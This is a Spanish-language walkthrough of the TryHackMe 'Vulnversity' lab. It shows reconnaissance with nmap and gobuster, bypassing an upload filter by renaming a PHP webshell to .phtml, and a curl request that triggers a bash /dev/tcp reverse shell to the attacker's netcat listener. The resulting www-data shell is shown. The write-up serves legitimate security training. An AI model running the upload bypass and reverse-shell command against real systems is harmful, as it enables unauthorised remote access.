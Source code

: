 # Bypass Restricción de File Upload

Es posible que en diversas ocasiones no podamos subir directamente un archivo en .php dentro de un panel de subida de archivos, por lo que tenemos que encontrar la forma de hacer un bypass de este tipo de restricciones; y una de las posibles formas es cambiar la extensión de nuestro payload, para que no sea .php pero que a su vez también funcione con php.

Enlace a la máquina vulnerable:

[https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

* Ver si tenemos conectividad con la màquina:

```bash
└─$ ping -c 1 10.10.130.170  
PING 10.10.130.170 (10.10.130.170) 56(84) bytes of data.
64 bytes from 10.10.130.170: icmp_seq=1 ttl=63 time=128 ms

--- 10.10.130.170 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 128.298/128.298/128.298/0.000 ms
```

* Escaneo puertos de la màquina:

```bash
└─# nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 10.10.130.170
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-15 20:13 CET
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:13
Completed NSE at 20:13, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:13
Completed NSE at 20:13, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:13
Completed NSE at 20:13, 0.00s elapsed
Initiating SYN Stealth Scan at 20:13
Scanning 10.10.130.170 [65535 ports]
Discovered open port 21/tcp on 10.10.130.170
Discovered open port 445/tcp on 10.10.130.170
Discovered open port 22/tcp on 10.10.130.170
Discovered open port 139/tcp on 10.10.130.170
Discovered open port 3333/tcp on 10.10.130.170
Discovered open port 3128/tcp on 10.10.130.170
Completed SYN Stealth Scan at 20:14, 16.37s elapsed (65535 total ports)
Initiating Service scan at 20:14
Scanning 6 services on 10.10.130.170
Completed Service scan at 20:14, 21.50s elapsed (6 services on 1 host)
NSE: Script scanning 10.10.130.170.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:14
Completed NSE at 20:14, 4.95s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:14
Completed NSE at 20:14, 0.54s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:14
Completed NSE at 20:14, 0.00s elapsed
Nmap scan report for 10.10.130.170
Host is up, received user-set (0.060s latency).
Scanned at 2024-11-15 20:13:44 CET for 44s
Not shown: 63076 closed tcp ports (reset), 2453 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 3.0.3
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  syn-ack ttl 63 Squid http proxy 3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.5.12
3333/tcp open  http        syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNUNIVERSITY<00>   Flags: <unique><active>
|   VULNUNIVERSITY<03>   Flags: <unique><active>
|   VULNUNIVERSITY<20>   Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2024-11-15T14:11:52-05:00
| smb2-time: 
|   date: 2024-11-15T19:11:52
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 14490/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 35831/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 30414/udp): CLEAN (Failed to receive data)
|   Check 4 (port 45226/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 1h37m28s, deviation: 2h53m12s, median: -2m31s

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:14
Completed NSE at 20:14, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:14
Completed NSE at 20:14, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:14
Completed NSE at 20:14, 0.01s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.41 seconds
           Raw packets sent: 81138 (3.570MB) | Rcvd: 68944 (2.758MB)
```

* Vemos que hay varios puertos abierto donde esta el puerto 3333 que resulta ser un servidor web donde tiene su página web, a continuación buscaremos posibles directorios con gobuster:

```bash
└─# gobuster dir -u http://10.10.130.170:3333/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.130.170:3333/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.130.170:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.130.170:3333/css/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.130.170:3333/js/]
/fonts                (Status: 301) [Size: 321] [--> http://10.10.130.170:3333/fonts/]
/internal             (Status: 301) [Size: 324] [--> http://10.10.130.170:3333/internal/]
Progress: 15667 / 207644 (7.55%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 15696 / 207644 (7.56%)
===============================================================
Finished
===============================================================
```

* Encontramos el directorio internal donde podemos subir archivos intentamos subir un archivo en php pero se ve que tiene una restricción, podemos probar a poner otra exentesión php por ejemplo phtml y subir nuestra webshell:&#x20;

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2024-11-15 202231.png" alt=""><figcaption></figcaption></figure>

* Cambiar el nombre del archivo:

```bash
mv rs.php rs.phtml
```

Y lo intentamos subir y vemos que ha sido posible, entonces la pregunta ahora es donde estará nuestra webshell subida.

* Buscar directorios dentro de la ruta internal:

```bash
└─# gobuster dir -u http://10.10.130.170:3333/internal/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.130.170:3333/internal/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 332] [--> http://10.10.130.170:3333/internal/uploads/]
/css                  (Status: 301) [Size: 328] [--> http://10.10.130.170:3333/internal/css/]
Progress: 11173 / 207644 (5.38%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 11213 / 207644 (5.40%)
===============================================================
Finished
===============================================================
```

Encontramos el directorio uploads donde encontramos nustra webshell subida y ahora es enviar la reverse shell para poder entrar en la máquina:

* Escuchar con netcat para recibir la reverse-shell:

```bash
└─# nc -nlvp 7777
listening on [any] 7777 ...
```

* Enviar la reverse-shell con curl:

```bash
└─$ curl "http://10.10.130.170:3333/internal/uploads/rs.phtml?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2fdev%2ftcp%2f10.23.46.73%2f7777%200%3E%261%22"
```

* Recibir la reverse-shell:

```bash
└─# nc -nlvp 7777
listening on [any] 7777 ...
connect to [10.23.46.73] from (UNKNOWN) [10.10.130.170] 56392
bash: cannot set terminal process group (1337): Inappropriate ioctl for device
bash: no job control in this shell
www-data@vulnuniversity:/var/www/html/internal/uploads$ 
```
